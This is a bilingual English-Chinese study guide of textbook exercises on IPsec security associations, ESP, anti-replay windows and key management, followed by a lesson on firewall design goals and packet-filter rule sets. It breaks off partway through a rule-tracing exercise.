- Cryptographic algorithms: documents on the algorithms for encryption, message authentication, pseudorandom functions and key exchange.密码算法：关于加密、消息认证、伪随机函数和密钥交换算法的文档。
- Other: for example security policy and management information base (MIB) content.其他：例如安全策略和管理信息库（MIB）的内容。
思路：架构、AH、ESP、IKE、算法、其他六类文档。
E3. (Review Question 20.3, Stallings; 22.10, Stallings & Brown) What is the key concept of the security association (SA) in IP security? What is an IPsec security association?E3.（复习题 20.3，Stallings；22.10，Stallings & Brown）IP 安全中安全关联（SA）的关键概念是什么？什么是 IPsec 安全关联？
Answer
A security association is a one-way relationship between a sender and a receiver that affords security services to the traffic carried on it. A two-way secure exchange therefore needs two SAs, one in each direction. Services are provided by either AH or ESP on an SA, not both on the same one.安全关联是发送方与接收方之间的单向关系，它为在其上承载的流量提供安全服务。因此，一次双向安全交换需要两个 SA，每个方向一个。服务由 AH 或 ESP 在一个 SA 上提供，而不是在同一 SA 上两者同时提供。
An SA is uniquely identified by three parameters: the Security Parameters Index (SPI), the destination IP address and the security protocol identifier (AH or ESP). Its properties (algorithms and keys, sequence number counter, anti-replay window, lifetime, mode) are stored in the security association database (SAD). The security policy database (SPD) decides which traffic uses which SA.一个 SA 由三个参数唯一标识：安全参数索引（SPI）、目的 IP 地址和安全协议标识符（AH 或 ESP）。它的属性（算法和密钥、序号计数器、抗重放窗口、生存期、模式）存储在安全关联数据库（SAD）中。安全策略数据库（SPD）决定哪些流量使用哪个 SA。
思路：SA 是单向的安全关系，由 SPI、目的地址、协议标识唯一确定。
E4. (Review Question 20.4, Stallings) What is the difference between transport mode and tunnel mode?E4.（复习题 20.4，Stallings）传输模式与隧道模式之间有什么区别？
Answer
Transport mode protects the payload of an IP packet (for example a TCP segment). The original IP header stays in front, with the ESP or AH header inserted after it. It is used for end-to-end protection between two hosts. Since the IP header is not encrypted, traffic analysis (who talks to whom) is still possible.传输模式保护 IP 数据包的载荷（例如 TCP 段）。原始 IP 首部保留在前面，ESP 或 AH 首部插在其后。它用于两台主机之间的端到端保护。由于 IP 首部未加密，流量分析（谁和谁通信）仍然可能。
Tunnel mode protects the entire original IP packet: the whole inner packet, plus the security fields, becomes the payload of a new outer IP packet with a new outer header. Routers along the path look only at the outer header. It is used when at least one end is a security gateway (firewall, router), for example for a VPN. The inner addresses are hidden, which counters traffic analysis, and the hosts behind the gateway need no IPsec.隧道模式保护整个原始 IP 数据包：整个内层数据包加上安全字段，成为一个带新外层首部的新外层 IP 数据包的载荷。沿途的路由器只看外层首部。它用于至少一端是安全网关（防火墙、路由器）的情形，例如 VPN。内层地址被隐藏，从而抵御流量分析，且网关后的主机无需 IPsec。
思路：传输模式只保护载荷、保留原 IP 头；隧道模式把整个原包封进新 IP 包。
E5. (Review Question 20.5, Stallings) What are the types of secret key algorithms used in IPsec?E5.（复习题 20.5，Stallings）IPsec 中使用哪些类型的秘密密钥算法？
Answer
ESP works with three kinds of symmetric (secret-key) algorithms, and IPsec lets the SA negotiate which is used.ESP 使用三类对称（秘密密钥）算法，IPsec 允许 SA 协商使用哪一种。
- Encryption algorithms for confidentiality, such as 3DES or AES in CBC or counter mode.加密算法用于机密性，例如 3DES，或 CBC 或计数器模式下的 AES。
- Message authentication algorithms, which compute the integrity check value (ICV), normally HMAC with a hash such as SHA-1 or SHA-2 (AH uses the same).消息认证算法，用于计算完整性校验值（ICV），通常是 HMAC，配合 SHA-1 或 SHA-2 等哈希（AH 使用相同的算法）。
- Authenticated-encryption (combined mode) algorithms that do both in one operation, such as AES-GCM.认证加密（组合模式）算法，在一次操作中同时完成两者，例如 AES-GCM。
Public-key methods (Diffie–Hellman) are used only by IKE to establish the secret keys.公钥方法（Diffie–Hellman）仅由 IKE 用于建立秘密密钥。
思路：对称加密、基于 HMAC 的认证、以及 GCM 这类合并模式。
E6. (Review Question 20.6, Stallings) Why does ESP include a padding field?E6.（复习题 20.6，Stallings）为什么 ESP 包含填充字段？
Answer
The Padding field (0–255 bytes) has three purposes.填充字段（0–255 字节）有三个作用。
- If the encryption algorithm needs the plaintext to be a multiple of some number of bytes (for example the block size of a block cipher), the padding expands the plaintext (payload data, padding, pad length and next header fields) to that length.如果加密算法要求明文是若干字节的整数倍（例如分组密码的块大小），填充会把明文（载荷数据、填充、填充长度和下一首部字段）扩展到该长度。
- The ESP format requires the Pad Length and Next Header fields to be right-aligned in a 32-bit word; the ciphertext must be a multiple of 32 bits, and padding ensures this.ESP 格式要求填充长度和下一首部字段在 32 位字中右对齐；密文必须是 32 位的整数倍，填充保证了这一点。
- Extra padding can hide the true payload length and so provides partial traffic-flow confidentiality.额外的填充可以隐藏真实的载荷长度，因此提供部分流量机密性。
思路：凑够分组长度、保证 32 位对齐、隐藏真实长度。
E7. (Review Question 20.7, Stallings) What are the parameters that identify an SA in any IP packet?E7.（复习题 20.7，Stallings）在任何 IP 数据包中，标识 SA 的参数有哪些？
Answer
Three parameters identify an SA.三个参数标识一个 SA。
- Security Parameters Index (SPI): a 32-bit number with only local significance, carried in the AH or ESP header, which lets the receiver select the SA.安全参数索引（SPI）：一个 32 位数字，只有本地意义，携带在 AH 或 ESP 首部中，使接收方能够选中相应的 SA。
- IP destination address: the address of the SA's destination endpoint (an end system or a gateway such as a firewall or router).IP 目的地址：SA 目的端点的地址（终端系统，或防火墙、路由器等网关）。
- Security protocol identifier: from the outer IP header, it says whether the SA is AH or ESP.安全协议标识符：来自外层 IP 首部，表明该 SA 是 AH 还是 ESP。
In a packet, the SA is therefore identified by the destination address in the IP header and the SPI in the AH or ESP header (and the protocol).因此，在数据包中，SA 由 IP 首部中的目的地址以及 AH 或 ESP 首部中的 SPI（以及协议）标识。
思路：SPI、目的 IP 地址、安全协议（AH 或 ESP）三元组。
E8. (Review Question 20.8, Stallings) What are the roles of the Oakley key determination protocol and ISAKMP in IPsec?E8.（复习题 20.8，Stallings）Oakley 密钥确定协议和 ISAKMP 在 IPsec 中各自扮演什么角色？
Answer
Together they form the default automated key management of IPsec.二者共同构成 IPsec 默认的自动化密钥管理。
- Oakley is the key exchange protocol, based on Diffie–Hellman with added security: cookies against clogging attacks, negotiation of the group (the DH parameters), nonces against replay, and authentication of the exchange against man-in-the-middle attacks. It is generic and does not fix message formats.Oakley 是密钥交换协议，基于增加了安全性的 Diffie–Hellman：用 cookie 抵御阻塞攻击，协商组（DH 参数），用 nonce 抵御重放，并对交换进行认证以抵御中间人攻击。它是通用的，不规定消息格式。
- ISAKMP (Internet Security Association and Key Management Protocol) is the framework: it defines the message formats and procedures to negotiate, establish, modify and delete SAs, but does not prescribe a key exchange algorithm. Oakley is the algorithm used with it.ISAKMP（因特网安全关联和密钥管理协议）是框架：它定义协商、建立、修改和删除 SA 的消息格式和过程，但不规定密钥交换算法。Oakley 是与它配合使用的算法。
IKEv2 no longer uses these names but keeps the same functions.IKEv2 不再使用这些名称，但保留了相同的功能。
思路：Oakley 负责安全地算出密钥，ISAKMP 提供协商 SA 的消息框架。
E9. (Review Question 22.9, Stallings & Brown) What services are provided by IPsec?E9.（复习题 22.9，Stallings & Brown）IPsec 提供哪些服务？
Answer
IPsec secures traffic at the IP layer with two protocols, AH (authentication) and ESP (encryption with optional authentication). Together they provide:IPsec 在 IP 层用两种协议保护流量：AH（认证）和 ESP（加密，可选认证）。二者共同提供：
- access control (only traffic permitted by the policy gets through);访问控制（只有策略允许的流量才能通过）；
- connectionless integrity;无连接完整性；
- data origin authentication;数据源认证；
- rejection of replayed packets (a form of partial sequence integrity);拒绝重放的数据包（部分序列完整性的一种形式）；
- confidentiality (encryption);机密性（加密）；
- limited traffic-flow confidentiality (by tunnel mode and padding).有限的流量机密性（通过隧道模式和填充实现）。
思路：访问控制、完整性、源认证、抗重放、保密、有限的流量保密。
E10. (Review Question 22.11, Stallings & Brown) What are the two ways of providing authentication in IPsec?E10.（复习题 22.11，Stallings & Brown）IPsec 提供认证的两种方式是什么？
Answer
- Authentication Header (AH): authentication only, giving integrity, data origin authentication and replay protection. It covers the payload and the parts of the IP header that do not change in transit.认证首部（AH）：只做认证，提供完整性、数据源认证和重放保护。它覆盖载荷以及在传输中不变的 IP 首部部分。
- ESP with its authentication option: the ESP packet carries an integrity check value after the trailer. It covers the ESP header and the encrypted payload, but not the outer IP header.带认证选项的 ESP：ESP 数据包在尾部之后携带完整性校验值。它覆盖 ESP 首部和加密载荷，但不包括外层 IP 首部。
AH is now deprecated, because ESP can already provide authentication.AH 现已弃用，因为 ESP 本身就能提供认证。
思路：AH 单独做认证，或用带认证选项的 ESP。
E11. (Problem 20.5, Stallings) Suppose that the current anti-replay window spans sequence numbers 120 to 530. (a) If the next incoming authenticated packet has sequence number 340, what will the receiver do with the packet, and what will be the parameters of the window afterwards? (b) What if the next authenticated packet has sequence number 598? (c) What if it has sequence number 110?E11.（习题 20.5，Stallings）假设当前抗重放窗口覆盖序号 120 到 530。(a) 如果下一个到达的经认证数据包序号为 340，接收方会如何处理它，之后窗口的参数是什么？(b) 如果下一个经认证数据包序号为 598 呢？(c) 如果序号为 110 呢？
Answer
Method. The right edge \(N\) of the window is the highest sequence number received for a valid packet; the window size is \(W = 530 - 120 + 1 = 411\), so the left edge is \(N - W + 1\). A packet inside the window is accepted if its slot is not yet marked and its authentication check succeeds; the slot is then marked. A packet to the right of the window that passes authentication advances the window. A packet to the left of the window, or one whose slot is already marked, is discarded.方法。窗口的右边界 \(N\) 是有效数据包中收到的最高序号；窗口大小为 \(W = 530 - 120 + 1 = 411\)，因此左边界为 \(N - W + 1\)。窗口内的数据包，若其位置尚未被标记且认证检查通过，则被接受，并标记该位置。位于窗口右侧且通过认证的数据包会推进窗口。位于窗口左侧的数据包，或位置已被标记的数据包，都会被丢弃。
(a) 340 lies inside \([120, 530]\). If it is new (slot not marked) and passes authentication, the receiver accepts it and marks slot 340. The window stays 120 to 530. A duplicate would be dropped.(a) 340 位于 \([120, 530]\) 之内。如果它是新的（位置未被标记）且通过认证，接收方接受它，并标记位置 340。窗口仍为 120 到 530。重复的数据包会被丢弃。
(b) 598 is to the right of the window. The receiver checks authentication; if valid it accepts the packet and advances the window so that \(N = 598\) and the left edge is \(598 - 411 + 1 = 188\). The new window is 188 to 598, with slot 598 marked. Slots 120–187 leave the window, so those packets would be refused later.(b) 598 位于窗口右侧。接收方检查认证；若有效，则接受该数据包，并推进窗口，使 \(N = 598\) 且左边界为 \(598 - 411 + 1 = 188\)。新窗口为 188 到 598，位置 598 被标记。120–187 号位置离开窗口，因此之后这些数据包会被拒绝。
(c) 110 is to the left of the window, so it is too old to be checked against the window (a replay cannot be excluded). The receiver discards it and records an auditable event. The window stays 120 to 530.(c) 110 位于窗口左侧，过旧而无法与窗口比对（无法排除重放）。接收方丢弃它，并记录一个可审计事件。窗口仍为 120 到 530。
The window thus accepts out-of-order packets but never accepts a number twice.因此，该窗口接受乱序到达的数据包，但同一个序号永远不会被接受两次。
思路：窗内且未标记就验证并标记；在右侧就验证后右移窗口；在左侧直接丢弃。
E12. (Problem 20.8, Stallings) The IPsec architecture document states that when two transport-mode SAs are bundled to allow both AH and ESP on the same end-to-end flow, only one ordering of the security protocols seems appropriate: performing ESP before AH. Why is this approach recommended rather than authentication before encryption?E12.（习题 20.8，Stallings）IPsec 体系结构文档指出，当两个传输模式 SA 绑定在一起以对同一条端到端流同时提供 AH 和 ESP 时，只有一种协议顺序似乎合适：先 ESP 后 AH。为什么推荐这种做法，而不是先认证后加密？
Answer
ESP before AH means that the inner SA is ESP (encryption) and the outer SA is AH, so the packet is IP header, AH, ESP, payload, with authentication applied after encryption.先 ESP 后 AH 意味着内层 SA 是 ESP（加密），外层 SA 是 AH，因此数据包为 IP 首部、AH、ESP、载荷，认证在加密之后进行。
- Early rejection. The receiver authenticates first. Forged or replayed packets are rejected by the AH check (and the sequence number) before any decryption is done, so bogus packets cost little and cannot be used to waste decryption work.尽早拒绝。接收方先做认证。伪造或重放的数据包在解密之前就被 AH 检查（以及序号）拒绝，因此无效数据包的代价很小，也无法被用来浪费解密的工作量。
- Wider coverage. The outer AH authenticates the whole ESP packet and the original IP header, including the addresses and all fields that do not change in transit, which ESP alone does not cover.覆盖范围更广。外层 AH 认证整个 ESP 数据包和原始 IP 首部，包括地址以及在传输中不变的所有字段，而单独的 ESP 并不覆盖这些。
- No dependence on the decrypted content. With authentication before encryption, the receiver would first have to decrypt an unauthenticated packet and only then could check it.不依赖解密后的内容。若先认证后加密，接收方就必须先解密一个未经认证的数据包，然后才能检查它。
The other order (authentication inside, encryption outside) has the benefit of hiding the authentication data and keeping it with the plaintext for later proof, but it is available through a transport SA inside a tunnel SA, not as two bundled transport SAs.另一种顺序（认证在内层，加密在外层）的好处是隐藏认证数据，并使其与明文一起保存，以便日后作证，但它可以通过隧道 SA 内部的传输 SA 实现，而不是两个绑定在一起的传输 SA。
思路：先加密后认证，收方不解密就能验证并丢弃伪造或重放包，且认证覆盖范围更大。
E13. (Problem 22.5, Stallings & Brown) IPsec ESP can be used in two modes. In the first, ESP encrypts (and optionally authenticates) the data carried by IP, for example a TCP segment: the ESP header goes immediately before the transport header, the ESP trailer after it, and the authentication data after the trailer. In the second, ESP encrypts an entire IP packet: the ESP header is prefixed to the packet, the packet plus trailer are encrypted, and the result is encapsulated with a new IP header that carries enough information for routing (this can counter traffic analysis). Suggest applications for the two modes.E13.（习题 22.5，Stallings & Brown）IPsec ESP 可以两种模式使用。第一种中，ESP 加密（并可选认证）IP 所承载的数据，例如 TCP 段：ESP 首部紧接在传输层首部之前，ESP 尾部在其之后，认证数据在尾部之后。第二种中，ESP 加密整个 IP 数据包：ESP 首部加在数据包前面，数据包加尾部一起被加密，结果再用一个新的 IP 首部封装，该首部携带足以用于路由的信息（这可以抵御流量分析）。请为这两种模式各举出应用。
Answer
The first mode is transport mode, the second is tunnel mode.第一种模式是传输模式，第二种是隧道模式。
Transport mode suits end-to-end protection between two hosts that both implement IPsec, because only the payload is protected and the packet keeps its normal IP header and is routed as usual. Applications: a remote user or workstation talking securely to a server (login, file transfer, Web or e-mail traffic), or two hosts exchanging sensitive data. It protects every application without changes, but addresses remain visible, so traffic analysis is possible.传输模式适用于两端都实现 IPsec 的主机之间的端到端保护，因为只保护载荷，数据包保留正常的 IP 首部，并照常路由。应用：远程用户或工作站与服务器之间的安全通信（登录、文件传输、Web 或电子邮件流量），或两台主机之间交换敏感数据。它无需修改即可保护每一个应用，但地址仍然可见，因此可能进行流量分析。
Tunnel mode suits cases where a security gateway (firewall or router) is at one or both ends. Applications: a site-to-site virtual private network between two company LANs over the Internet; a remote user reaching the company network through a gateway. The hosts behind the gateway need no IPsec, the inner addresses and headers are hidden from eavesdroppers, and the traffic of many hosts looks like a single encrypted flow between the gateways.隧道模式适用于安全网关（防火墙或路由器）位于一端或两端的情形。应用：通过因特网连接两家公司局域网的站点到站点虚拟专用网；远程用户通过网关访问公司网络。网关后的主机无需 IPsec，内层地址和首部对窃听者隐藏，许多主机的流量在网关之间看起来就像单一的加密流。
思路：主机到主机用传输模式，网关参与（VPN、远程接入）用隧道模式并可防流量分析。
Chapter 21Firewalls, DMZ and VPN Configurations防火墙、DMZ 与 VPN 配置Reading: Stallings & Brown Ch. 9
Firewall role, policy and limits ★★★防火墙的作用、策略与局限
Goal. State what a firewall is for, give its three design goals and its policy criteria, and say which threats it cannot stop.目标。说明防火墙的用途，给出它的三个设计目标及其策略标准，并说明它无法阻止哪些威胁。
Step 1: what a firewall is第 1 步：什么是防火墙
In words: a firewall = one guarded door between your network and the outside, which lets through only what your rules allow.用文字表述：防火墙 = 你的网络与外界之间一扇有人把守的门，只放行规则允许的流量。
A firewall（防火墙）is a boundary system between security domains, usually the premises network and the Internet. It is a single choke point（咽喉点）for security and auditing. It also adds an outer layer to the protection of each host. This follows the principle of defence in depth（纵深防御）: several layers, so that one failure is not fatal.防火墙是位于安全域之间的边界系统，通常位于本单位网络与因特网之间。它是安全防护和审计的唯一咽喉点。它还为每台主机的保护增加了一层外围防护。这遵循纵深防御的原则：多层防护，使得单点失效不致致命。
A firewall has three design goals.防火墙有三个设计目标。
- All traffic between inside and outside passes through the firewall. Every other path is physically blocked.内外之间的所有流量都经过防火墙。其他所有路径都在物理上被封堵。
- Only traffic authorised by the local security policy is allowed to pass.只有本地安全策略授权的流量才能通过。
- The firewall itself is immune to penetration. It is a hardened system.防火墙本身能免受渗透。它是一个加固过的系统。
Each goal can fail. Goal 1 fails when someone plugs in a modem that bypasses the firewall. Goal 2 fails when a rule is too permissive. Goal 3 fails when the firewall runs an unpatched service.每个目标都可能失效。目标 1 在有人接入绕过防火墙的调制解调器时失效。目标 2 在规则过于宽松时失效。目标 3 在防火墙运行着未打补丁的服务时失效。
Step 2: the access policy and its four criteria第 2 步：访问策略及其四项标准
The access policy lists the authorised traffic: address ranges, protocols, applications and content types. It is refined from the risk assessment of the organisation into filter rules. A policy can use four criteria.访问策略列出授权的流量：地址范围、协议、应用和内容类型。它由组织的风险评估细化为过滤规则。策略可使用四类标准。
- IP address and protocol values. Addresses, ports and direction. Used by packet filters and stateful firewalls. Example: block inbound TCP port 23.IP 地址和协议取值。地址、端口和方向。包过滤器和状态检测防火墙使用。例：阻止入站 TCP 23 端口。
- Application protocol. Example: allow HTTP only to approved sites, or check mail for spam. Used by application-level gateways.应用协议。例：只允许访问已批准网站的 HTTP，或检查邮件是否为垃圾邮件。由应用级网关使用。
- User identity. Example: only authenticated inside users may reach the Internet.用户身份。例：只有经过认证的内部用户才能访问因特网。
- Network activity. Example: the time of the request, or the request rate, to detect scans.网络活动。例：请求的时间，或请求速率，用于发现扫描行为。
Step 3: what a firewall can and cannot do第 3 步：防火墙能做什么、不能做什么
| A firewall can防火墙能够 | A firewall cannot防火墙无法 |
|---|---|
| Provide one choke point: keep unauthorised users out, block vulnerable services, resist IP spoofing and routing attacks提供唯一咽喉点：阻止未授权用户进入，阻断存在漏洞的服务，抵御 IP 欺骗和路由攻击 | Stop traffic that bypasses it (mobile broadband, direct links to partners)阻止绕过它的流量（移动宽带、与合作伙伴的直连链路） |
| Support audits and alarms, address translation (NAT) and logging支持审计与告警、地址转换（NAT）和日志记录 | Fully stop insiders or an insecure wireless LAN彻底阻止内部人员或不安全的无线局域网 |
| Host IPsec in tunnel mode to build VPNs以隧道模式承载 IPsec，构建 VPN | Stop a laptop or USB device infected elsewhere and then attached inside阻止在其他地方感染、随后接入内部网络的笔记本电脑或 USB 设备 |
Example: an employee connects a mobile-broadband modem to an office PC. The traffic never reaches the firewall, so goal 1 is broken. Another example: an employee brings a USB stick that was infected at home. The malware enters on the stick and runs inside. The firewall never sees it.例：一名员工把移动宽带调制解调器接到办公室的 PC 上。这些流量从未经过防火墙，因此目标 1 被破坏。另一例：一名员工带来一个在家中感染了病毒的 U 盘。恶意软件通过 U 盘进入并在内部运行，防火墙从未看到它。
Practice练习
Q1. (Classification) Say whether a perimeter firewall helps against each case and why: (a) a worm scanning the Internet for an exposed vulnerable service on internal hosts; (b) an employee connects a mobile-broadband modem to an office PC; (c) a USB stick infected at home is used at work; (d) policy: outside connections are allowed only from 08:00 to 18:00.Q1.（分类）判断边界防火墙能否防范以下各种情形，并说明理由：(a) 蠕虫在互联网上扫描内部主机上暴露的存在漏洞的服务；(b) 员工将移动宽带调制解调器连接到办公室 PC；(c) 在家中感染的 U 盘被带到工作场所使用；(d) 策略规定：仅允许在 08:00 至 18:00 之间建立外部连接。
Answer
(a) Yes. The single choke point blocks inbound traffic to services the policy does not allow. (b) No. The traffic bypasses the firewall, which violates design goal 1; remove the path or add a host-based firewall. (c) No. The malware enters on a portable device and runs inside; host defences (antivirus, HIPS) are needed. (d) Yes. Time of request is a network-activity criterion that the firewall can enforce.(a) 能。唯一咽喉点会阻断策略不允许的服务的入站流量。(b) 不能。该流量绕过了防火墙，违反设计目标 1；应撤除这条路径，或加装基于主机的防火墙。(c) 不能。恶意软件经由便携设备进入并在内部运行，需要主机防御（杀毒软件、HIPS）。(d) 能。请求时间是一种网络活动准则，防火墙可以执行。
易错：防火墙只能管经过它的流量；绕过它的通道和内部威胁不在它的能力范围内。
Q2. (Short answer) State the three design goals of a firewall. Which of the four NIST policy criteria does each rule use: (a) block inbound TCP port 23; (b) allow HTTP only to approved sites; (c) allow at most 20 connection attempts per second from one source?Q2.（简答）写出防火墙的三个设计目标。各条规则分别使用四类 NIST 策略准则中的哪一类：(a) 阻断入站 TCP 端口 23；(b) 仅允许访问经批准网站的 HTTP；(c) 允许每个源每秒最多 20 次连接尝试？
Answer
Goals: (1) all traffic passes through the firewall; (2) only traffic authorised by the local security policy passes; (3) the firewall itself is immune to penetration. Criteria: (a) IP address and protocol values (port and direction); (b) application protocol, which needs an application-level gateway because a packet filter cannot see URLs; (c) network activity (request rate).目标：(1) 所有流量都经过防火墙；(2) 只有本地安全策略授权的流量才能通过；(3) 防火墙本身能够抵御渗透。准则：(a) IP 地址和协议取值（端口与方向）；(b) 应用协议，由于包过滤器看不到 URL，因此需要应用层网关；(c) 网络活动（请求速率）。
Packet filtering firewalls ★★★包过滤防火墙
Goal. Read a packet-filter rule table, decide each packet with the first-match rule, write a rule set for a simple service, and name the three attacks on packet filters with their fixes.目标。读懂包过滤规则表，用首次匹配规则判定每个数据包，为一项简单服务编写规则集，并说出包过滤器的三种攻击及其对策。
Step 1: what a packet filter checks第 1 步：包过滤器检查什么
In words: a packet filter = look at the header of each packet alone, compare it with a list of rules from top to bottom, and obey the first rule that fits.用文字表述：包过滤器 = 只看每个数据包自身的首部，按从上到下的顺序与规则列表比较，并执行第一条匹配的规则。
A packet filtering firewall（包过滤防火墙）applies a rule set to every IP packet that it receives or sends, in both directions. It then forwards or discards the packet. A rule matches these header fields:包过滤防火墙对它收发的每个 IP 数据包应用一组规则，双向都适用。随后它转发或丢弃该数据包。规则可以匹配以下首部字段：
- source and destination IP address;源和目的 IP 地址；
- source and destination transport port, which identifies the application;源和目的传输层端口，端口标识应用；
- the IP protocol field: TCP, UDP or ICMP;IP 协议字段：TCP、UDP 或 ICMP；
- the interface, that is, the port of the firewall on which the packet arrives or leaves;接口，即数据包到达或离开防火墙时所经过的端口；
- in richer filters, the direction and the TCP flags such as ACK.在功能更强的过滤器中，还可以匹配方向以及 TCP 标志位（如 ACK）。
The rules form an ordered list. The first matching rule decides. If no rule matches, the default policy applies.规则组成一个有序列表。第一条匹配的规则生效。如果没有规则匹配，则应用默认策略。
| Default默认策略 | Meaning含义 | Assessment评价 |
|---|---|---|
| Discard丢弃 | what is not expressly permitted is prohibited凡未明确允许的，一律禁止 | conservative; services are added case by case; likely to be preferred by businesses and governments保守；服务逐项添加；企业和政府更可能采用 |
| Forward转发 | what is not expressly prohibited is permitted凡未明确禁止的，一律允许 | easy for users but weak; not recommended对用户便利，但安全性弱；不推荐 |
Example: the rules are "1. permit TCP to 10.0.0.80 port 80" and "2. deny everything". A packet to 10.0.0.80 port 22 does not match rule 1. It matches rule 2 and is discarded.例：规则为"1. 允许 TCP 访问 10.0.0.80 的 80 端口"和"2. 拒绝所有"。发往 10.0.0.80 的 22 端口的数据包不匹配规则 1，而是匹配规则 2，因此被丢弃。
Step 2: a rule set for e-mail and its hole第 2 步：电子邮件的规则集及其漏洞
The goal is to allow inbound and outbound e-mail and nothing else. All rules are for TCP.目标是只允许入站和出站电子邮件，其他一概不允许。所有规则都针对 TCP。
| Rule规则 | Dir方向 | Src address源地址 | Dest address目的地址 | Dest port目的端口 | Action动作 |
|---|---|---|---|---|---|
| 1 | In入站 | External外部 | Internal内部 | 25 | Permit允许 |
| 2 | Out出站 | Internal内部 | External外部 | >1023 | Permit允许 |
| 3 | Out出站 | Internal内部 | External外部 | 25 | Permit允许 |
| 4 | In入站 | External外部 | Internal内部 | >1023 | Permit允许 |
| 5 | Either双向 | Any任意 | Any任意 | Any任意 | Deny拒绝 |
Rules 1 and 3 carry the mail requests to server port 25. Rules 2 and 4 let the replies return to the temporary port of the client. Rule 5 is the default deny, which every rule set contains implicitly.规则 1 和 3 把邮件请求送到服务器的 25 端口。规则 2 和 4 让应答返回客户端的临时端口。规则 5 是默认拒绝，每个规则集都隐含包含它。
The hole. The filter cannot know which high port is in use. So rule 4 admits external traffic to any port above 1023. An attacker opens a connection from his port 5150 to an internal Web proxy on port 8080. Rule 4 admits the request. Rule 2 lets the answers leave. The attack succeeds.漏洞。 过滤器无法知道哪个高端口正在使用，因此规则 4 允许外部流量访问任何大于 1023 的端口。攻击者从自己的 5150 端口发起连接，访问内部 Web 代理的 8080 端口。规则 4 允许该请求通过，规则 2 允许应答发出。攻击成功。
Two refinements close the hole in turn.接下来用两项改进依次堵住这个漏洞。
- Source-port column. Rules 1 and 3 get source port above 1023. Rules 2 and 4 get source port 25. The attack packet has source port 5150, so it matches no permit rule.源端口列。 规则 1 和 3 要求源端口大于 1023，规则 2 和 4 要求源端口为 25。攻击数据包的源端口是 5150，因此不匹配任何允许规则。
- Flag column. Port 25 is only a convention. The attacker can send from his own port 25 and match rule 4. So rules 2 and 4 also require ACK. A connection request has ACK clear, so outsiders cannot open connections. Only segments of connections started inside pass.标志列。 25 端口只是一种约定，攻击者完全可以用自己的 25 端口发送，从而匹配规则 4。因此规则 2 和 4 还要求 ACK 置位。连接请求的 ACK 位为 0，所以外部人员无法发起连接。只有内部发起的连接的报文段才能通过。
ACK shows only that a flag is set. It does not show that a connection exists. A crafted ACK packet still passes. Stateful inspection (Section 21.3) removes this weakness.ACK 只说明该标志位被置位，并不能说明连接存在。伪造的 ACK 数据包仍能通过。状态检测（见第 21.3 节）可以消除这一弱点。
The final rule set with both refinements, and three inbound packets that are checked against it:下面是加入两项改进后的最终规则集，以及用它检查的三个入站数据包：
| Rule规则 | Dir方向 | Src address源地址 | Src port源端口 | Dest address目的地址 | Dest port目的端口 | Flag标志位 | Action动作 |
|---|---|---|---|---|---|---|---|
| 1 | In入站 | External外部 | above 1023大于 1023 | Internal内部 | 25 | any | Permit允许 |
| 2 | Out出站 | Internal内部 | 25 | External外部 | above 1023大于 1023 | ACK | Permit允许 |
| 3 | Out出站 | Internal内部 | above 1023大于 1023 | External外部 | 25 | any | Permit允许 |
| 4 | In入站 | External外部 | 25 | Internal内部 | above 1023大于 1023 | ACK | Permit允许 |
| 5 | Either双向 | any | any | any | any | any | Deny拒绝 |
| Packet (internal network is 10.0.0.0/24)数据包（内部网络为 10.0.0.0/24） | Deciding rule决定性规则 | Action动作 |
|---|---|---|
| In: 203.0.113.9:4000 to 10.0.0.25:25, SYN入站：203.0.113.9:4000 到 10.0.0.25:25，SYN | 1 | Permit: normal mail delivery允许：正常的邮件投递 |
| In: 203.0.113.9:25 to 10.0.0.9:8080, SYN入站：203.0.113.9:25 到 10.0.0.9:8080，SYN | 5 | Deny: rule 4 needs ACK, and this SYN has ACK clear拒绝：规则 4 要求 ACK，而该 SYN 的 ACK 位为 0 |
| In: 203.0.113.9:25 to 10.0.0.9:8080, ACK only入站：203.0.113.9:25 到 10.0.0.9:8080，仅 ACK | 4 | Permit: the hole that remains允许：剩下的漏洞 |
Step 3: strengths, weaknesses and attacks第 3 步：优点、弱点与攻击
A packet filter is simple, transparent to users and very fast. It has four weaknesses.包过滤器简单、对用户透明，而且速度很快。它有四个弱点。
- It does not examine upper-layer data, so it cannot block specific application commands.它不检查上层数据，因此无法阻断特定的应用命令。
- Logging and user authentication are limited.日志记录和用户认证的能力有限。
- It is vulnerable to attacks on the TCP/IP specification, such as address spoofing.它容易受到针对 TCP/IP 规范本身的攻击，例如地址欺骗。
- It has few decision variables, so misconfiguration is easy.它的决策变量很少，因此很容易配置错误。
Three attacks on a packet filter, with the countermeasure of each:针对包过滤器的三种攻击，以及每种攻击的对策：
| Attack攻击 | How it works工作方式 | Countermeasure对策 |
|---|---|---|
| IP address spoofing（IP 地址欺骗）IP 地址欺骗 | An outside packet carries an internal source address to fool systems that trust internal hosts外部数据包携带内部源地址，以欺骗信任内部主机的系统 | Discard packets that arrive on an external interface with an inside source address丢弃从外部接口到达、却带有内部源地址的数据包 |
| Source routing（源路由） | The sender dictates the route to bypass checks that ignore it发送方指定路由，以绕过忽略该选项的检查 | Discard packets that use source routing丢弃使用源路由的数据包 |
| Tiny fragment attack（微小分片攻击） | A tiny first fragment hides the TCP flags; the filter judges the first fragment only, and later fragments pass极小的首分片隐藏了 TCP 标志位；过滤器只判断首分片，后续分片随之通过 | Require a minimum amount of the transport header in the first fragment; if it is rejected, remember the packet and drop all its later fragments要求首分片中包含最少量的传输层首部；若被拒绝，则记住该数据包，并丢弃其全部后续分片 |
Example for spoofing: the firewall protects 10.0.0.0/24. A packet with source 10.0.0.5 arrives on the external interface. An inside host cannot be outside, so the packet is forged. The rule is: direction In, on the external interface, source 10.0.0.0/24, action Deny, placed above all permit rules.欺骗攻击示例：防火墙保护 10.0.0.0/24。一个源地址为 10.0.0.5 的数据包从外部接口到达。内部主机不可能位于外部，因此该数据包是伪造的。规则为：方向为入站，接口为外部接口，源为 10.0.0.0/24，动作为拒绝，并放在所有允许规则之前。
Practice练习
Q1. (Trace) The rule set below protects the network 192.168.1.0/24 (first match decides; "192.168.1.0/24" means any internal host).Q1.（手工演算）下面的规则集用于保护网络 192.168.1.0/24（以首次匹配为准；“192.168.1.0/24”指任一内部主机）。
| # | Src address源地址 | Dest address目的地址 | Dest port目的端口 | Action动作 |
|---|---|---|---|---|
| 1 | Any任意 | 192.168.1.0/24 | >1023 | Allow允许 |
| 2 | 192.168.1.1 | Any任意 | Any任意 | Deny拒绝 |
| 3 | Any任意 | 192.168.1.1 | Any任意 | Deny拒绝 |
| 4 | 192.168.1.0/24 | Any任意 | Any任意 | Allow允许 |
| 5 | Any任意 | 192.168.1.2 | 25 | Allow允许 |
| 6 | Any任意 | 192.168.1.3 | 80 | Allow允许 |
